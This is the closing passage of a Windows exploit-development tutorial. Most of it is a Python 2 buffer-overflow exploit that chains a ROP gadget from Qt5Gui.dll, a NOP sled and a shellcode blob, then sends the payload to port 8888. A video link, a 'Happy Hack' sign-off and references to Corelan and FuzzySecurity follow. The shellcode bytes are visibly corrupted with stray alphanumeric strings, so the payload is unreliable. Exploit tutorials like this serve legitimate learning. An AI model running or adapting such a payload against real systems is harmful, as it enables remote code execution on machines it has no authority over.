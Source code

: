```python
		0x61b6b8d0,  # PUSHAD # RETN [Qt5Gui.dll]
  	]
	#return ''.join(struct.pack('<'I', _) for _ in rop_gadgets)## add this here and remove one ''!!

target="127.0.0.1"
buffer=4000
rop_chain = create_rop_chain()
junk1="A"*1052
nop="\x90"*24
buf = ""
buf +="\xba\xd5\x31\x08\x1FFRitFm5rP5oY5aeTeDikpQiWRz278L45\xc9\xb1"
buf +="\x33\x83\xc3\x04\x31\x53\x0e\x03\x86\x3f\xea\xcd\xd4\xa8\x63"
buf +="\x2d\x24\x29\x14\xa7\xc1\x18\x06\xd3\x82\x09\x96\x97\xc6\xa1"
buf +="\x5d\xf5\xf2\x32\x13\xd2\xf5\xf3\x9e\x04\x38\x03\x2f\x89\x96"
buf +="\xc7\x1FFRitFm5rLQihCFPSNPkwLNBTbVZHUAnYc5iRYaWz9em1\x81\x5a"
buf +="\x12\x30\x36\xee\x66\x89\x37\x20\xed\xb1\x4f\x45\x31\x45\xfa"
buf +="\x44\x61\xf6\x71\x0e\x99\x7c\xdd\xaf\x98\x51\x3d\x93\xd3\xde"
buf +="\xf6\x67\xe2\x1FFRitFm5rLQihCFPSNPkwLNBTbVZHUAnYc5iRYaWz9emc"
buf +="\x64\xa3\x0b\x1f\x1FFRitFm5rP5oY5aeTeDikpQiWRz278L45\xe2\x36"
buf +="\xf5\x42\x74\xbc\xf9\x2f\xf2\x9a\x1d\xb1\xd7\x90\x19\x3a\xd6"
buf +="\x76\xa8\x78\xfd\x52\xf1\xdb\x9c\xc3\x5f\x8d\xa1\x14\x07\x72"
buf +="\x04\x5e\xa5\x67\x3e\x3d\xa3\x76\xb2\x3b\x8a\x79\xcc\x43\xbc"
buf +="\x11\xfd\xc8\x53\x65\x02\x1b\x10\x99\x48\x06\x30\x32\x15\xd2"
buf +="\x01\x5f\xa6\x08\x45\x66\x25\xb9\x35\x9d\x35\xc8\x30\xd9\xf1"
buf +="\x20\x48\x72\x94\x46\xff\x73\xbd\x24\x9e\xe7\x5d\x85\x05\x80"
buf +="\xc4\xd9"

exploit=junk1+rop_chain+nop+buf
fill="\x43"* (buffer-len(exploit))
payload=exploit+fill

try:
	s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
	s.connect((target,8888))
	s.send(payload)
except:
	print "Don't Crash Me !"
```

Short video with result of this exploit [--> Windows Exploit Development ROP <--](https://www.youtube.com/watch?v=8oQ4XJJukCY)

I hope you like this article about Windows Exploit Development and sorry for my bad English , i am not a native speaker (Happy Hack)

## Reference

[https://www.corelan.be/index.php/2010/06/16/exploit-writing-tutorial-part-10-chaining-dep-with-rop-the-rubikstm-cube/](https://www.corelan.be/index.php/2010/06/16/exploit-writing-tutorial-part-10-chaining-dep-with-rop-the-rubikstm-cube/)

[https://www.fuzzysecurity.com/tutorials/expDev/7.html](https://www.fuzzysecurity.com/tutorials/expDev/7.html)